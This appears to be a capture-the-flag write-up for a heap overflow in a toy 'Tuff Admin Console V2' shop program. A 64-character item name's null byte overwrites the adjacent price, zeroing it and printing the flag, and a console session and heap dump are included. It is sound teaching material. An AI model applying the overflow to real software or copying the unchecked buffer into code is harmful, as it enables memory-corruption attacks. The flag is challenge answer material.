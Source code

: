 # Proof of Concept

## TL;DR

- Heap overflow to edit price below 67

- Name array size is 64, so you can input 64 characters during edit so that the null identifier `'\0'` overwrites price

- Example of overflow:
```
Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 1
Enter item name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
Randomizing price to: 153

Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 3
Enter item index to view: 0
Item Name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaa
Item Price: 153

Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 2
Enter item index to edit: 0
Enter new item name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa

Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 3
Enter item index to view: 0
Item Name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
Item Price: 0

Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 4
Enter item index to buy: 0
[Debug] reading flag
HCS{omg_h343p_g00att_s0_tUFFFF_<3}
```

- Notice the 2nd chunk has one extra character overflowed, making the price int `0x0000000000000000`:
```
0x55555556b2a0  0x0000000000000000      0x0000000000000051      ........Q.......
0x55555556b2b0  0x6161616261616161      0x6161616461616163      aaaabaaacaaadaaa
0x55555556b2c0  0x6161616661616165      0x6161616861616167      eaaafaaagaaahaaa
0x55555556b2d0  0x6161616a61616169      0x6161616c6161616b      iaaajaaakaaalaaa
0x55555556b2e0  0x6161616e6161616d      0x006161706161616f      maaanaaaoaaapaa.
0x55555556b2f0  0x000000000000008d      0x0000000000000051      ........Q.......
0x55555556b300  0x6161616261616161      0x6161616461616163      aaaabaaacaaadaaa
0x55555556b310  0x6161616661616165      0x6161616861616167      eaaafaaagaaahaaa
0x55555556b320  0x6161616a61616169      0x6161616c6161616b      iaaajaaakaaalaaa
0x55555556b330  0x6161616e6161616d      0x616161706161616f      maaanaaaoaaapaaa
0x55555556b340  0x0000000000000000      0x000000000000ecc1      ................       <-- Top chunk

```

### Flag: 
> HCS{omg_h343p_g00att_s0_tUFFFF_<3_[a-fA-F0-9]{8}-([a-fA-F0-9]{4}-){3}[a-fA-F0-9]{12}}